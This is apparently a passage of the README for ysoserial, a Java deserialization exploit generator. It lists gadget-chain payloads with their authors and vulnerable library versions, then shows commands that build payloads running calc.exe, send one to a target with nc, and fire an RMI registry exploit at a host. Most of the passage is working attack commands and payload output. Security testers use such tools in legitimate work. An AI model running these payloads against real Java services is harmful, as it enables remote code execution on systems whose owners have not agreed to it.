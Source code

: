 ```shell
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections5js @51pwn                    commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

